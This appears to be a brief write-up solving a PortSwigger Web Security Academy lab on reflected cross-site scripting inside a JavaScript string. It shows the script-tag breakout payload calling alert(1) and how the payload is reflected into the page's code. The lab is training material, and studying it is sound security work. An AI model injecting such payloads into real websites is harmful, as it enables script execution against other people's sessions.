 # Reflected XSS into a JavaScript string with single quote and backslash escaped

## This lab contains a [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.

## To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the `alert` function.

---

### step 1

search something

![screenshot](./images/lab21.png)

### step2

payload is

```javascript
</script><script>alert(1)</script>
```

enter into search result

```javascript
<script>

var searchTerms = '</script><script>alert(1)</script>';

document.write('<img src="[/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'](https://0a840064042f3b9080d780620032000d.web-security-academy.net/resources/images/tracker.gif?searchTerms=%27+encodeURIComponent(searchTerms)+%27)">');

</script>
```
